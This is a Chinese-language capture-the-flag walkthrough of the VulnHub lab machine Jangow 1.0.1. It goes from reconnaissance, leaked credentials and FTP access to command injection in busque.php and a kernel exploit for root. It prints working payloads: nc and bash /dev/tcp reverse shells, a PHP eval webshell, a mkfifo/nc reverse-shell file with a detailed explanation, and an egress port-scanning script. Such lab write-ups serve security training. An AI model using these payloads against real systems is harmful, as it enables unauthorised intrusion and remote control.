

## 复盘*

## 靶机地址

[Jangow: 1.0.1 ~ VulnHub](https://www.vulnhub.com/entry/jangow-101,754/)


## 信息收集

### 主机探测

```
nmap -sn 192.168.1.0/24 
```

确定靶机ip：192.168.1.6


### nmap扫描

#### 创建文件夹用于存放nmap扫描结果

```
mkdir ./nmapscan
```


#### 端口扫描

```
sudo nmap -sT -p- --min-rate 10000 192.168.1.6 -oA ./nmapscan/ports
```

开放了：

- 21 ftp服务
- 80 http服务


#### 提取端口信息

```
ports=$(cat ./nmapscan/ports.nmap | grep open | awk -F/ '{print $1}' | paste -sd,)
echo $ports
```


#### 详细结果扫描

```
sudo nmap -sC -sV -O -sT -p 21,80 192.168.1.6 -oA ./nmapscan/detail
```

分析：

- 21 ftp vsftpd 3.0.3
- 没提示是否可以匿名登录，可以尝试一下，或是hydra爆破
- 80 hhtp Apache httpd 2.4.18
- 有一个site目录


### 尝试匿名登陆ftp服务

```
ftp 192.168.1.6
anonymous
exit
```

失败


### 访问192.168.1.6


有一个site文件夹

访问后进入主页

查看源码，无内容


### dirsearch进行目录爆破

#### 首先从根目录开始

```
dirsearch -u 192.168.1.6
```



有一个隐藏文件

- .backup


#### 然后爆破/site/目录

```
dirsearch -u http://192.168.1.6/site/
```

常规的js源码和图像信息


### 访问.backup

得到数据库账号和密码

```
jangow01 ：abygurl69
```


### 21 端口

#### 尝试利用登录ftp服务

```
ftp 192.168.1.6
```

成功登录


#### 切换为binary模式

```
binary
```


#### 查看文件

```
ls
cd html
ls
cd site
get busque.php
```


是网站的源码内容

有一个php文件，下载

同时存在wordpress目录

```
cd wordpress
ls
get config.php
exit
```


存在config.php文件

下载后退出ftp服务


#### 查看busque.php

```
cat busque.php
```


命令执行


#### 查看config.php

```
cat config.php
```


提供了新的用户名和密码

```
desafio02：abygurl69
```


#### 尝试利用其登录ftp

```
ftp 192.168.1.6
```


失败


### 80端口

#### 访问192.168.1.6/site/busque.php

```
http://192.168.1.6/site/busque.php
```

存在该目录

添加参数buscar（源码给出的）

#### 尝试执行whoami

```
http://192.168.1.6/site/busque.php?buscar=whoami
```

成功


#### 尝试反弹shell

```
?buscar=which nc
```

存在nc

利用nc反弹shell

#### 本地开启监听

```
sudo nc -lvp 283
```


```
?buscar=nc -e /bin/bash 192.1.3 283
```

执行后并没有建立连接


#### 尝试bash反弹shell

```
?buscar=bash -i >& /dev/tcp/192.168.1.3/283 0>&1
```

失败


#### 由于目前还有一个账号密码，尝试查看ssh状态，尝试ssh登录

```
?buscar=systemctl status ssh
```

可以看到ssh服务正常开启

但是没扫到ssh服务端口，推测端口号被修改


#### 查看sshd_config

```
?buscar=cat /etc/ssh/sshd_config
```

还是正常22端口，但是扫描不到，推测存在防火墙


#### 尝试写入一句话木马

```
?buscar=echo 123
```

成功

```
?buscar=echo 123 > 1.txt
```

```
?buscar=ls
```


成功写入内容

写入一句话木马

```
?buscar=echo '<?php @eval($_POST['ra1n3']);?>' > a.php
```


#### 蚁剑连接


#### 拿到第一个flag


尝试利用蚁剑反弹shell

```
bash -i >& /dev/tcp/192.168.1.3/283 0>&1
```


同样失败

判断存在端口过滤（及目标主机防火墙配置不允许端口与外部建立连接）


#### 探测靶机开放端口

思路：

在KALI上配置一条iptabes规则，将1-65535的端口流量全部重定向到4444端口，然后在kali上监听4444端口

然后再从靶机上发起1-65535的访问，如果某个端口的流量未被拦截，那么到该端口的流量将转发到4444端口

kali：

```
iptables -A PREROUTING -t nat -p tcp --dport 1:65535 -j REDIRECT --to-port 4444
nc -lvnp 4444
```

匹配条件：

- 协议：TCP。
- 目标端口：1 到 65535（几乎所有 TCP 端口）。

动作：

- 将所有进入的 TCP 数据包（目标端口为 1-65535）重定向到本地主机的 4444 端口。


靶机：

写入shell脚本

```
#!/bin/bash
for i in {1..65535};
do
timeout 1 nc -vz 192.168.1.3 $i && echo "$i open" >> result.txt || echo "$i closed" >> result.txt;
done
```

for i in {1..65535};

- 作用：使用 for 循环遍历 1 到 65535 的端口号。
- 解释：
  - {1..65535} 是 Bash 的序列扩展，生成从 1 到 65535 的整数序列。
  - 这是标准的 TCP/UDP 端口范围（0-65535），但 0 通常不使用。

timeout 1 nc -vz 192.168.1.3 $i && echo "$i open" >> result.txt || echo "$i closed" >> result.txt;

作用：对每个端口执行端口扫描，并根据结果写入文件。

- 分解：

  - timeout 1：限制 nc 命令的最大执行时间为 1 秒，防止卡住。

  - nc -vz 192.168.1.3 $i：
    - nc（netcat）：网络工具，用于连接或监听。
    - -v：详细模式，显示连接信息。
    - -z：仅扫描（zero-I/O mode），不发送数据，仅检查端口状态。
    - 192.168.1.3：目标 IP 地址。
    - $i：当前端口号。

  - && echo "$i open" >> result.txt：
    - 如果 nc 成功连接（端口开放），追加 $i open 到 result.txt。

  - || echo "$i closed" >> result.txt：
    - 如果 nc 失败（端口关闭），追加 $i closed 到 result.txt。

  - ;：结束语句，进入下一次循环。


ai优化后

```
#!/bin/bash
> result.txt  # 清空或创建文件
for i in {1..65535}; do
    (timeout 0.2 nc -vz 192.168.1.3 $i && echo "$i open" || echo "$i closed") >> result.txt &
    [ $((i % 20)) -eq 0 ] && wait  # 每 20 个任务等待一次
done
wait  # 等待所有后台任务完成
```

优化点：20 个并行任务，timeout 0.2 减少等待时间。


得知443端口正常开放


#### 扫描结束后清空刚刚的iptables规则

```
iptables -t nat -L PREROUTING -v -n --line-numbers
iptables -t nat -D PREROUTING 1
iptables -t nat -L -v -n
```


先查看该规则的行号

然后根据行号删除规则

最后检查


#### 网站目录新建一个shell.php

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.3 443 >/tmp/f");?>
```


rm /tmp/f：

- 删除 /tmp/f 文件（如果存在）。
- 目的：确保后续创建的命名管道不会与已有文件冲突。

mkfifo /tmp/f：

- 创建一个命名管道（FIFO 文件）/tmp/f。
- 命名管道：一种特殊文件，允许进程间通信，数据从写入端流向读取端。
- 目的：为后续的 cat 和 nc 提供数据传输通道。

cat /tmp/f：

- 读取 /tmp/f 的内容并输出。
- 由于 /tmp/f 是命名管道，cat 会阻塞，直到有数据写入。

| /bin/sh -i 2>&1：

- |：将 cat 的输出作为 /bin/sh -i 的输入。
- /bin/sh -i：启动一个交互式 Shell（可能是 bash 或 dash）。
- 2>&1：将标准错误（stderr）重定向到标准输出（stdout），确保所有 Shell 输出（包括错误）都被传递。
- 目的：生成目标系统的 Shell 输出，并将其发送到管道。

| nc 192.168.1.3 443：

- nc（netcat）：将 Shell 的输出通过网络发送到 192.168.1.3 的 443 端口。
- 目的：建立与攻击者控制的机器的连接，将 Shell 输出传输过去。

/tmp/f：

- 将 nc 接收到的数据（攻击者的输入命令）重定向回 /tmp/f。
- 由于 /tmp/f 是命名管道，cat 会读取这些数据并传递给 Shell，形成双向通信。
- 目的：实现交互式 Shell，允许攻击者发送命令并接收响应。


执行流程：

- 命令创建命名管道 /tmp/f，并通过 nc 连接到攻击者机器 192.168.1.3:443。

- /bin/sh -i 提供交互式 Shell，输出通过 nc 发送给攻击者，攻击者的输入通过管道返回 Shell。

效果：

- 攻击者在 192.168.1.3:443 上运行监听程序（例如 nc -lvnp 443），即可接收目标机器的 Shell。

- 攻击者可以输入命令（例如 whoami、id），并获取目标系统的响应。


#### 本地开启监听

```
nc -lvnp 443
```


#### 访问shell.php


成功得到shell


## 提权

### python转换终端

```
python -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
```


python失败，python3成功


### 查看系统内核信息

```
uname -a
cat /etc/*release
```


ubuntu 16.04


### 搜索相关漏洞

```
searchsploit ubuntu 16.04
```


### 内核提权

这里我使用的是45010.c

```
searchsploit -m linux/local/45010.c
```


#### kali下载exp

复制到/var/www/html，即kali的服务器


然后windows浏览器下载，然后放在蚁剑中


#### 编译运行

```
gcc 45010.c -o b
ls
./b
id
```


成功提权


#### 得到flag

```
cd /root
ls
cat proof.txt
```


```
iptables -L
```


可以看到设置了很多防火墙规则
